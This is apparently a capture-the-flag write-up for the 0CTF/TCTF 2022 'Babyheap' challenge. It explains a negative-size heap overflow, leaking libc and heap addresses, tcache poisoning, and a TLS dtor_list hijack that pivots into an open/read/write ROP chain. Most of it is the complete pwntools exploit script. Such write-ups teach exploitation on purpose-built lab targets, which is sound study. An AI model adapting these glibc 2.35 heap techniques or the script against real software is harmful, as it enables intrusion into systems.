

### Babyheap

was a pwn challenge from 0CTF/TCTF 2022 edition

This challenge is typical note app with vuln.

A heap challenge based on libc-2.35 , last ubuntu 22.04 libc at the time of writing..

so no hooks..

classic menu from early classical ctf period..


The program has a seccomp in place, that limit us to open/read/write ROP, no execve..so no one-gadgets too..


### Bug
Bug is at `Update` function below. We can pass negative value to this `Size` and earn almost unlimited heap overflow.

```c
  else {
    printf("Size: ");
    lVar2 = r_get_int();
    if (*(long *)(param_1 + (long)(int)uVar1 * 0x18 + 8) < lVar2) {
      puts("Invalid Size");
    }
    else {
      printf("Content: ");
      get_bytes(*(undefined8 *)(param_1 + (long)(int)uVar1 * 0x18 + 0x10),lVar2);
      printf("Chunk %d Updated\n",(ulong)uVar1);
    }
  }
  return;
```

### Exploit: leak
Since no UAF & null terminated inputs, we chose to create overlap chunk to get leak. The plan is as follows.
1. Arrange the chunks as below.
2. Free #4 to consolidate chunk with #1
3. Alloc some chunks to overlap main_arena's address and #3
4. free #6 to chain unsortedbin for heap leak
5. view #2 to leak libc + heap

```
Chunk #0    [ALLOC] <-- to edit #1 header
Chunk #1    [FREE ] <-- unsortedbin with fake header
Chunk #2    [ALLOC] <-- for leak
Chunk #3    [ALLOC] <-- for tcache poisoning
Chunk #4    [ALLOC] <-- make prev inuse: false
Chunk #5    [ALLOC] <-- guard chunk
Chunk #6    [ALLOC] <-- bigger than 0x420
Chunk #7    [ALLOC] <-- guard chunk
Chunk #8-15 [FREE ] <-- fill tcache
```

### Exploit: do the tcache poisonning dance two times..

So for exploitation we will use a classical tcache poisonning attack, wich is easy with heap overflow.

We just have to free at least 2 chunks… then overwrite their fd pointer with the heap overflow.

We will reuse the same method to achieve code execution than in ezvm challenge from this ctf.

https://github.com/nobodyisnobody/write-ups/tree/main/0CTF.TCTF.2022/pwn/ezvm

We will create a fake `dtor_list` table in tls-storage zone just before libc.

the `call_tls_dtors()` will also permit us to set `rdx` register,

we will use a very usefull gadget in libc, to pivot stack on rdx

```
libc.address + 0x000000000005a170 # mov rsp, rdx ; ret
```

instead of calling system like in ezvm challenge , we will setup rdx to point to our rop,

and will call the `mov rsp,rdx` gadget with out fake `dtor_list` table

our ROP is a classic open / read / write rop

that will dump the flag.

For using this method ,we need two writes:

- one to erase the random value that is used for calculating mangled value as `fs:0x30`
- another to write our fake `dtor_list` table and our rop

so we will do tcache poisonning attack two times…

then we exit the program, that will execute our rop at exit time…
 and dump the flag.



here is the exploit code commented(more or less):

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.arch = 'amd64'
context.log_level = 'error'

TARGET = './babyheap'
HOST = '47.100.33.132'
PORT = 2204

elf = ELF(TARGET)
libc = ELF('./libc.so.6')

if not args.REMOTE:
  r = process(TARGET)
else:
  r = remote(HOST, PORT)


def a(size, data):
	r.sendlineafter(b'mand: ', b'1')
	r.sendlineafter(b'Size: ', str(size).encode())
	r.sendlineafter(b'tent: ', data)

def e(idx, data, size=-1):
	r.sendlineafter(b'mand: ', b'2')
	r.sendlineafter(b'ndex: ', str(idx).encode())
	r.sendlineafter(b'Size: ', str(size).encode())
	r.sendlineafter(b'tent: ', data)

def d(idx):
	r.sendlineafter(b'mand: ', b'3')
	r.sendlineafter(b'ndex: ', str(idx).encode())

def v(idx):
	r.sendlineafter(b'mand: ', b'4')
	r.sendlineafter(b'ndex: ', str(idx).encode())

# function to rotate left
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

#----------------------------------------------------

a(0xf8, b'11111111')
a(0xf8, b'22222222')
a(0x48, b'33333333') #2
a(0x48, b'44444444') #3
a(0x48, b'........') #4
a(0x48, b'........') #5
a(0xf8, b'55555555')
a(0x28, b'66666666')
for i in range(7):
	a(0xf8, b'a')

for i in range(7):
	d(14-i)

a(0x418, b'cccccccc') #8
a(0x18, b'cccccccc')

d(1)
e(0, b'!'*0xf8+p64(0x241)[:-1])
e(5, b'!'*0x40+p64(0x240))

d(6)
a(0x78, b'aaaaaaaa')
a(0x78, b'bbbbbbbb')

d(8)
v(2)
r.recvuntil(b'[2]: ')
leak = u64(r.recv(8))
print(f"leak: {leak:x}")
libc.address = leak - 0x219ce0
stdout = libc.sym['_IO_2_1_stdout_']
environ = libc.sym['environ']
leak = u64(r.recv(8))
print(f"leak: {leak:x}")
heap = leak - 0xe00
def mangle(v):
	return v ^ (heap >> 12)

rop = ROP(libc)

print(f"base: {libc.address:x}")
print(f"heap: {heap:x}")

payload = b''
payload += b'@'*0xf8
payload += flat(0x81)
payload += b'@'*0x78
payload += flat(0x81)
payload += b'@'*0x78

payload += flat(0x51)
payload += b'2'*0x48
payload += flat(0x51)
payload += b'3'*0x48
payload += flat(0x51)
payload += b'4'*0x48
payload += flat(0x51)
payload += b'5'*0x48
payload += flat(0x81)[:-1]

e(0, payload)
d(3)
d(2)

payload = b''
payload += b'@'*0xf8
payload += flat(0x81)
payload += b'@'*0x78
payload += flat(0x81)
payload += b'@'*0x78

payload += flat(0x51)
#payload += p64(mangle(stdout))
payload += p64(mangle(libc.address - 0x2920))
payload += b'2'*0x40
payload += flat(0x51)
payload += p64(mangle(0))
payload += b'3'*0x40
payload += flat(0x51)
payload += b'4'*0x48
payload += flat(0x51)
payload += b'5'*0x48
payload += flat(0x81)[:-1]

over1 = b''
over1 += p64(0)*5+p64(0x101)+p64( (libc.address-0x2890)^((heap+0x710)>>12) )
e(7,over1)
e(0, payload)

#---------------------------------------------------------------
# gagdets from libc
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rax_rdx_rbx = libc.address + 0x0000000000090528 # pop rax ; pop rdx ; pop rbx ; ret
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
xchg_eax_edi = libc.address + 0x000000000014a385 # xchg eax, edi ; ret
xchg_eax_edx = libc.address + 0x00000000000cea5a # xchg eax, edx ; ret
syscall = libc.address + 0x0000000000091396 # syscall; ret;

a(0xf8, b'a1a1')
ropa = libc.address - 0x2890
# our final ROP thant will dump the flag
myrop= b''
# open(fname,O_RDONLY)  (8 qwords)
myrop += p64(0)+p64(pop_rdi)+p64(ropa+(29*8))+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
# read(fd,buff,256)   (8 qwords)
myrop += p64(xchg_eax_edi)+p64(pop_rsi)+p64(ropa+0x200)+p64(pop_rax_rdx_rbx)+p64(0)+p64(0x200)+p64(0)+p64(syscall)
# write(fd,buff,256)   (8 qwords)
myrop += p64(xchg_eax_edx)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(ropa+0x200)+p64(pop_rax)+p64(1)+p64(syscall)
#myrop += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(ropa-0x200)+p64(pop_rax_rdx_rbx)+p64(1)+p64(0x100)+p64(0)+p64(syscall)
# exit()   (5 qwords)
myrop += p64(pop_rax_rdx_rbx)+p64(60)+p64(0)+p64(0)+p64(syscall)
if args.REMOTE:
  myrop += b'/flag\x00'
else:
  myrop += b'flag.txt\x00'

#----------------------------------------------------
# prepare our rop
a(0xf8, myrop)

# gadget we will use to pivot on ROP
gadget0 = libc.address + 0x000000000005a170 # mov rsp, rdx ; ret

# trigger
a(0x48, b'aaaaaaaa')
fake = b''
fake += p64(0)+p64(libc.address-0x2900)+p64(0)*2

# where do we jump, address need to be rotated left 17 bites , we will use a mov rsp,rdx / ret gadget to pivot on stack were we want
fake +=  p64(rol(gadget0,0x11,64))  # where do we jump
fake +=  p64(0xdeadbeef)	# first arg goes in rdi
fake +=  p64(0xdeadbeef)        # 
fake +=  p64(libc.address - 0x2888)        #  arg goes in rdx , so address of our ROP where we pivot ideally ready on heap

a(0x48, fake)
# exit , so our rop will be executed
r.sendlineafter(b'mand: ', b'5')

r.interactive()
r.close()
```

*nobodyisnobody still on the pwn side..*